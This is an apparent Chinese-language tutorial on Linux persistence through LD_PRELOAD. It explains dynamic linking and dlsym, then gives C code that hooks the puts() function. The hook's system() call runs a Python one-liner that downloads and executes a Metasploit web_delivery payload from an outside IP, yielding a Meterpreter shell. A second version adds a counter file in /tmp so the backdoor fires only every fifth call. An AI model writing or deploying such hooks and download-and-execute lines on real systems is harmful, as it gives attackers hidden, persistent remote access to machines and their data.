




## LD_PRELOAD 

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

## dlsym

**dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。**

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：


> void * dlsym(void * handle,const char * symbol)

* handle：由dlopen打开动态链接库后返回的指针；
* symbol：要求获取的函数或全局变量的名称。

返回值：void * 指向函数的地址，供调用使用。

劫持示例代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
// do some thing …
// 这里是puts调用之前
  result = new_puts(message);
  // 这里是puts调用之后
  return result;
}
```

编译命令：

`gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`

* -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
* -shared 生成共享库格式
* -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
* -D_GNU_SOURCE 以GNU规范标准编译

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。



`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。
接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。



正常执行的过程：


执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：


接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。
优化代码如下：

```c

#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <sys/stat.h>
#define BUFFER_SIZE 100
#define COMMAND_NUM 5
int check_file_line(char * filename){
	int file_line = 0;
	char buffer[BUFFER_SIZE];
	FILE *fp = NULL;
	fp = fopen(filename,"r");
	if(fp==NULL){
		return file_line;
	}

	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
		file_line ++;
	}
	fclose(fp);
	return file_line;
}

void add_file_line(char * filename){
	FILE * fp = NULL;
	fp = fopen(filename,"a+");
	if(fp == NULL){
		return;
	}
	
	fputs("1\n",fp);
	fclose(fp);
}

void call_system(){

  system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");

}

int puts(const char *message) {
  char * filename = "/tmp/err.log";
  int (*new_puts)(const char *message);
  int result;
  int file_lines = 0;
  new_puts = dlsym(RTLD_NEXT, "puts");
  add_file_line(filename);
  file_lines = check_file_line(filename);
  printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
  if(file_lines % COMMAND_NUM == 0){
  	call_system();
  }
  result = new_puts(message);
  return result;
}
```



在执行至第零次、五次时，成功返回了会话：




COMMAND_NUM 可自定义